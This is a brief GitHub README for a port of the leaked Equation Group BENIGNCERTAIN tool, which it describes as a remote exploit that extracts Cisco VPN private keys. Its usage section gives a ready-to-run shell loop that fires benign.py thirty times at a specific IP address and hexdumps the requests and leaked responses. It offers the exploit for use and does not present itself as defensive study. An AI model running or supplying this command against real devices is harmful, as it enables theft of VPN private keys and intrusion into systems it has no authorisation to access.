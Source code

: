 # benigncertain
Simple exploit test for benigncertain (Equation Group's BENIGNCERTAIN tool - a remote exploit to extract Cisco VPN private keys) 
The port is based on the code from https://github.com/ross-bradley/benign-certain 

## Usage
```
for i in {1..30}; do python benign.py -n 1024 -o outfile -i intest 193.127.189.251  && echo "***RESPONSE***" && hexdump -C outfile  && echo "***REQUEST***" &&hexdump -C intest ; done
```

The response and request should contain different data 
